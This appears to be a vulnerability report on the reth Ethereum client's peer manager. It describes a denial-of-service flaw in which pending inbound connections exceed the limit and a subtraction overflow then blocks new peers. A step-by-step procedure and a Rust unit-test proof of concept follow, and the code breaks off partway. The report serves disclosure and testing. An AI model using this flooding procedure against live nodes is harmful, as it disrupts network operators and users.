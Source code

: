 ## References

https://github.com/paradigmxyz/reth/blob/v1.1.5/crates/net/network/src/peers.rs

## Link to Proof of Concept

[https://gist.github.com/blobism/1b4ce6ffc9136b0305fb2df4b6fca158](https://gist.github.com/blobism/1b4ce6ffc9136b0305fb2df4b6fca158)

## Proof of Concept

## Proof of Concept

I believe that unit tests are sufficient in demonstrating the severity of these exploits. Integration or private testnet PoCs can be provided if needed. There are 2 versions of the exploit demonstrated, to show that the exploit can work regardless of the state of the trusted peer:

1. Awaiting Trusted Peers - In this case we are awaiting the connection of a trusted peer, so it is expected behavior that pending connections will be allowed in even when established connections have reached their max.
2. Trusted Peers Connected - In this case all trusted peers have established connections. Pending connections are still allowed in due to one of the bugs described above.

In both cases we show how pending peers are allowed beyond the limit, then how the DoS attack can occur to prevent new pending peers. These PoC unit tests should be added to `crates/net/network/src/peers.rs`

### Unit PoC 1: Awaiting Trusted Peers

This PoC uses the following procedure:

1. Add a trusted peer, but do not connect it
2. fill established inbound slots with untrusted peers
3. Saturate the pending inbound slots, which is allowed since the trusted peer has not connected
4. Add pending inbound connections beyond the limit (this is where a flooding exploit could occur)
5. Drop all of these pending connections (subtraction overflow occurs here)
6. Disconnect one of the established peers
7. Observe that any new incoming pending peers are rejected, when they should be allowed through

```rust
#[tokio::test]
async fn awaiting_trusted_peers_bug() {
    let mut peers = PeersManager::new(PeersConfig::test().with_max_inbound(2));
    let trusted_peer_id = PeerId::random();
    peers.add_trusted_peer_id(trusted_peer_id);

    // saturate the established inbound slots with untrusted peers (do not include trusted peer)
    let mut connected_peer_ids = Vec::new();
    for i in 0..peers.connection_info.config.max_inbound {
        let addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, i as u8)), 8008);
        assert!(peers.on_incoming_pending_session(addr.ip()).is_ok());
        let peer_id = PeerId::random();
        peers.on_incoming_session_established(peer_id, addr);
        connected_peer_ids.push(peer_id);

        match event!(peers) {
            PeerAction::PeerAdded(id) => {
                assert_eq!(id, peer_id);
            }
            _ => unreachable!(),
        }
    }

    let mut pending_addrs = Vec::new();
```